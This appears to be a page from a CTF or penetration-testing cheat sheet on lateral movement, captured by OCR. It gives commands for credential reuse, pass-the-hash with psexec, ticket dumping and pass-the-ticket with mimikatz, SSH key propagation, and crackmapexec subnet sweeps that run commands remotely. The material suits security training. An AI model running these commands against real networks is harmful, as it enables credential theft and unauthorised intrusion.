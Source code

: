 #### 🧩 1. Credential Reuse

Use dumped hashes or passwords to connect to other systems.

```bash
ssh user@10.10.10.11
evil-winrm -i 10.10.10.11 -u user -p pass
```

***

#### 🧩 2. Pass-the-Hash (Windows)

```powershell
psexec.py DOMAIN/user@10.10.10.11 -hashes <LM:NT>
```

***

#### 🧩 3. Pass-the-Ticket (Kerberos)

Dump tickets:

```powershell
mimikatz.exe
sekurlsa::tickets
```

Use:

```powershell
kerberos::ptt <ticket.kirbi>
```

***

#### 🧩 4. SSH Key Propagation (Linux)

```bash
for host in $(cat hosts.txt); do
    ssh-copy-id user@$host
done
```

***

#### 🧩 5. SMB/WinRM Propagation (Windows)

```powershell
crackmapexec smb 10.10.10.0/24 -u admin -p password
crackmapexec winrm 10.10.10.0/24 -u admin -p password --exec "whoami"
```

***

### V. 🧰 Data Exfiltration

Your end goal in CTFs: get flags, credentials, or loot.
